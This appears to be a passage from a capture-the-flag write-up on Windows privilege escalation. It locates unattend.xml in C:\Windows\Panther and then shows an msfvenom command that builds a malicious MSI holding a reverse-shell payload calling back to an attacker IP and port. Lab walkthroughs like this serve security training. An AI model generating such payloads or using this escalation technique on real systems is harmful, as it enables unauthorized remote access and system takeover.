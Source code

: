 directory `Windows\Panther`

```
C:\>cd C:\Windows\Panther

C:\Windows\Panther>dir
 Volume in drive C has no label.
 Volume Serial Number is 823E-9601

 Directory of C:\Windows\Panther

06/06/2021  01:20 PM    <DIR>          .
06/06/2021  01:20 PM    <DIR>          ..
05/25/2021  09:51 PM            44,525 cbs.log
05/25/2021  09:52 PM                68 Contents0.dir
05/25/2021  08:54 PM                68 Contents1.dir
05/25/2021  08:52 PM             1,554 DDACLSys.log
05/25/2021  08:54 PM             6,032 diagerr.xml
05/25/2021  08:54 PM            19,427 diagwrn.xml
06/04/2021  09:38 PM    <DIR>          FastCleanup
05/25/2021  09:52 PM            28,812 MainQueueOnline0.que
05/25/2021  08:54 PM            27,456 MainQueueOnline1.que
10/17/2025  10:22 PM           319,488 setup.etl
05/25/2021  08:52 PM    <DIR>          setup.exe
05/25/2021  08:57 PM           453,075 setupact.log
05/25/2021  08:54 PM               135 setuperr.log
05/25/2021  08:52 PM           110,848 setupinfo
06/06/2021  01:21 PM             8,231 unattend.xml   <---- here
05/25/2021  08:52 PM    <DIR>          UnattendGC
01/09/2020  02:25 PM         1,051,664 _s_6B6D.tmp
03/18/2019  09:43 PM           580,788 _s_734D.tmp
03/18/2019  09:43 PM           756,812 _s_75B0.tmp
              16 File(s)      3,408,983 bytes
               5 Dir(s)   5,748,506,624 bytes free
```

`unattend.xml`

```
type unattend.xml
```
<img width="1270" height="746" alt="image" src="https://github.com/user-attachments/assets/1bbc45e1-77ae-40f0-a2fb-c33d1f58f1da" />


#### 2.Escalate privileges to SYSTEM and submit the contents of the flag.txt file on the Administrator Desktop.

Create a malicious .msi file on system:

```
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.15.140 lport=7777 -f msi > aie.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```
